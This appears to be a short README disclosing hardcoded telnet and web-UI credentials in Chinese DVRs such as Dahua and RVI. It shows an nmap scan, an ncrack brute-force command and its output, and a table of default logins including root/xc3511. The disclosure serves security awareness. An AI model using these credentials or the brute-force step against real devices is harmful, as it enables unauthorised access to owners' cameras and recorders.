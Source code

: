 # Hardcoded telnet login\password in Chinese DVR, like Dahua, RVI.
[English](README.md) [Русский](README.ru.md)

Also, it can be rebranded and sell under a different name.

Nmap report looks interesting:
```
Nmap scan report for 192.168.100.15
Host is up (0.0050s latency).
Not shown: 65527 closed ports

PORT      STATE    SERVICE        VERSION

23/tcp    open     telnet         BusyBox telnetd
81/tcp    open     http           uc-httpd 1.0.0 #Web-ui, You can get guest access with guest\<empty> credentials
445/tcp   filtered microsoft-ds
4090/tcp  open     ssl/omasgport?
9527/tcp  open     unknown
9528/tcp  open     unknown
34567/tcp open     dhanalakshmi? #This port using for remote veiw in CMS
34599/tcp open     unknown

Device type: WAP
Running: Linux 2.4.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.36
OS details: DD-WRT v24-sp1 (Linux 2.4.36)
Network Distance: 5 hops
Service Info: Host: LocalHost
```
And, with ncrack i "recover" hardcoded telnet creds.

```
ncrack 192.168.100.15:23 -U logins.txt -P passwords.txt
Starting Ncrack 0.6 ( http://ncrack.org ) at 2018-05-26 13:06
Discovered credentials for telnet on 192.168.100.15 23/tcp:
192.168.100.15:23 23/tcp telnet: 'root' 'xc3511'
Ncrack done: 1 service scanned in 27.06 seconds.
Ncrack finished.
```
Web-ui configuration files are stored in /mnt/mtd/Config/, but i did not understand password hash in file Account1.
Also, in my case sed did not work.
Empty password hash - tlJwpbo6.

Some updates.  
This credetials hardcoded in Web-ui.


|  login   | password |
|----------| ---------|
| default  | OxhlwSG8 |
| default  | tlJwpbo6 |
| default  | S2fGqNFs |
